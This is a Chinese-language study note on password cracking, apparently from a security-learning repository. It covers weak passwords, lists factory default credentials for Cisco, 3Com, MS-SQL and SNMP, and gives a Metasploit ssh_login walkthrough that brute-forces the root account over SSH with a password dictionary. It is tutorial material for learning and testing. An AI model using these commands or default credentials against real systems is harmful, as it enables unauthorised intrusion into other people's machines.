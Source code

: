 # 03 口令破解

多数的系统，口令是进入系统的第一道防线，也是唯一防线

绝大多数口令算法是可靠的

获得口令的方式有多种

因而的，口令攻击是一种简单直接的攻击收发，往往有的时候可以快速撬开对方大门

## 口令问题

1. 弱口令：

   用户趋向于选择容易的口令，即空口令

   用户会选择易于记住的东西做口令：

   - test passwd guest username……
   - 名字、生日、简单数字……

   多数用户的安全意识薄弱

2. 出场安装默认口令

   网络设备

   - Cisco Router： user：enable pw：cisco
   - 3Com交换机： user：admin pw：synnet

   数据库

   - MS-SQL:sa空口令

   SNMP

   - Public、Private

### 工具——hscan

基于windows的工具，图形化界面，傻瓜式操作= =

### 工具——ssh_login

集成于msf中的模块，具体用例：

```shell
root@kali:~# msfconsole

msf5 > use auxiliary/scanner/ssh/ssh_login	#加载模块

msf5 auxiliary(scanner/ssh/ssh_login) > set RHOST 172.17.62.158	#设置目标主机IP

msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME root	#设置待爆破用户名

msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /root/pwdFileDir/test01.txt	#设定本地密码字典，此处示例字典为/root/pwdFileDir/test01.txt

msf5 auxiliary(scanner/ssh/ssh_login) > set THREAD 50	#设置线程数

msf5 auxiliary(scanner/ssh/ssh_login) > run	#模块执行
```

